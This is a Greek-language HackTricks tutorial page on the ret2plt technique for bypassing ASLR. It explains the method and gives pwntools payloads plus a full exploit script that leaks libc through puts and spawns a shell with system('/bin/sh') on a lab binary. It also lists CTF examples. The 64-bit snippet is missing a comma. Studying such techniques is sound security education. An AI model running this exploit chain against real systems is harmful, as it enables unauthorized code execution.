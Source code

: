# Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ο στόχος αυτής της τεχνικής θα ήταν να **διαρρεύσει μια διεύθυνση από μια συνάρτηση από το PLT** για να μπορέσει να παρακάμψει το ASLR. Αυτό συμβαίνει επειδή αν, για παράδειγμα, διαρρεύσετε τη διεύθυνση της συνάρτησης `puts` από τη libc, μπορείτε στη συνέχεια να **υπολογίσετε πού είναι η βάση της `libc`** και να υπολογίσετε offsets για να αποκτήσετε πρόσβαση σε άλλες συναρτήσεις όπως **`system`**.

Αυτό μπορεί να γίνει με ένα payload `pwntools` όπως ([**από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Σημειώστε πώς η **`puts`** (χρησιμοποιώντας τη διεύθυνση από το PLT) καλείται με τη διεύθυνση της `puts` που βρίσκεται στο GOT (Global Offset Table). Αυτό συμβαίνει επειδή μέχρι τη στιγμή που η `puts` εκτυπώνει την εγγραφή του GOT της `puts`, αυτή η **εγγραφή θα περιέχει τη ακριβή διεύθυνση της `puts` στη μνήμη**.

Επίσης, σημειώστε πώς η διεύθυνση της `main` χρησιμοποιείται στην εκμετάλλευση, έτσι ώστε όταν η `puts` ολοκληρώσει την εκτέλεσή της, το **δυαδικό αρχείο καλεί ξανά την `main` αντί να τερματίσει** (έτσι η διαρροή διεύθυνσης θα παραμείνει έγκυρη).

{% hint style="danger" %}
Σημειώστε πώς για να λειτουργήσει αυτό, το **δυαδικό αρχείο δεν μπορεί να έχει μεταγλωττιστεί με PIE** ή πρέπει να έχετε **βρει μια διαρροή για να παρακάμψετε το PIE** προκειμένου να γνωρίζετε τη διεύθυνση του PLT, GOT και `main`. Διαφορετικά, πρέπει πρώτα να παρακάμψετε το PIE.
{% endhint %}

Μπορείτε να βρείτε ένα [**πλήρες παράδειγμα αυτής της παράκαμψης εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Αυτή ήταν η τελική εκμετάλλευση από αυτό το παράδειγμα:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Άλλα παραδείγματα & Αναφορές

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ενεργοποιημένο ASLR αλλά χωρίς PIE, το πρώτο βήμα είναι να γεμίσετε μια υπερχείλιση μέχρι το byte 0x00 του canary για να καλέσετε στη συνέχεια το puts και να διαρρεύσετε. Με το canary δημιουργείται ένα ROP gadget για να καλέσει το puts για να διαρρεύσει τη διεύθυνση του puts από το GOT και ένα ROP gadget για να καλέσει το `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ενεργοποιημένο ASLR, χωρίς canary, υπερχείλιση στο stack από μια παιδική συνάρτηση. ROP gadget για να καλέσει το puts για να διαρρεύσει τη διεύθυνση του puts από το GOT και στη συνέχεια να καλέσει ένα one gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
